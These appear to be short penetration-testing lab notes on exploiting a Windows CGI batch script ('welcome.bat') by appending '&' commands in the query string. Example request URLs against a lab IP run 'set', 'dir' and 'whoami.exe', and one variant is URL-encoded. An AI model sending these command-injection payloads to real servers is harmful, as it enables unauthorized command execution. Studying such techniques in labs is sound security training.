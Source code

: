 Common Gateway Interface
if we found any valid CGI script path 

Retrieve a list of environment variables 

```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
instead of `set` we can also use `dir`

if PATH variable is unset, we have to hardcode paths in requests
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

might have to URL-encode the payload
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
